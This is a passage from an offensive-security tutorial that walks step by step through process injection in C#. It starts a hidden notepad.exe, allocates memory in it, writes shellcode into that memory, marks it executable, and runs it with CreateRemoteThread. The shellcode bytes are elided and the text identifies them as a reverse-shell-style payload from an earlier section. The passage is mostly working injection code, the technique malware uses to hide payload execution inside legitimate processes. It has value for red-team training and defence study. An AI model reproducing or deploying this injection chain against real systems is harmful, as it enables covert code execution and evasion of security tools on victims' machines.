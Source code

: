 ```csharp

        }
    }
}

```

With all the `Windows APIs` referenced, we can write the actual logic which will perform the `PE injection` inside the main method. First we will define our shellcode, which in this case is the `micr0_shell` payload from the previous section:

```csharp
byte[] buf = {<SNIP>};

// 1. Create the target process
STARTUPINFO startInfo = new STARTUPINFO();
PROCESS_INFORMATION procInfo = new PROCESS_INFORMATION();
uint flags = DetachedProcess | CreateNoWindow;
CreateProcess(IntPtr.Zero, "C:\\Windows\\System32\\notepad.exe", IntPtr.Zero, IntPtr.Zero, false, flags, IntPtr.Zero, IntPtr.Zero, ref startInfo, out procInfo);

```

Next, we will allocate `Read/Write` space for the shellcode inside the target process's address space:

```csharp
// 2. Allocate RW space for shellcode in target process
IntPtr lpBaseAddress = VirtualAllocEx(procInfo.hProcess, IntPtr.Zero, (uint)buf.Length, 0x3000, PageReadWrite);

```

We will write the shellcode into the space provided by the address that `VirtualAllocEx` returned:

```csharp
// 3. Copy shellcode to target process
IntPtr outSize;
WriteProcessMemory(procInfo.hProcess, lpBaseAddress, buf, buf.Length, out outSize);

```

Following that, we change the memory protection of the allocated space to `Read/Execute`:

```csharp
// 4. Make shellcode in target process's memory executable
uint lpflOldProtect;
VirtualProtectEx(procInfo.hProcess, lpBaseAddress, (uint)buf.Length, PageReadExecute, out lpflOldProtect);

```

Finally, we can call `CreateRemoteThread` to execute the shellcode inside the address space of the target process:

```csharp
// 5. Create remote thread in target process
IntPtr hThread = CreateRemoteThread(procInfo.hProcess, IntPtr.Zero, 0, lpBaseAddress, IntPtr.Zero, 0, IntPtr.Zero);

```
